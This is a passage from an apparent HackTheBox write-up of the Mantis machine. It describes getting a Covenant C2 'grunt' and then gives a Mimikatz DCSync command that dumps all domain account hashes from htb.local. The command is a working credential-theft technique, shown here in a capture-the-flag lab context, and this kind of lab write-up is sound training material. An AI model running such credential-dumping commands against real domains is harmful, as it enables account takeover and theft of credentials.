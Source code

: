 ![execute](/images/hackthebox-writeups/mantis/btsadmin.png)

Bingo, we got a grunt.

![grunt](/images/hackthebox-writeups/mantis/grunt-1.png)

### Dumping the SAM hashes with Covenant

To dump the SAM hashes we will head over to the interact tab and enter the following command

{% highlight powershell linenos %}
Mimikatz /command:"\"lsadump::dcsync /domain:htb.local /all /csv\""
{% endhighlight %}
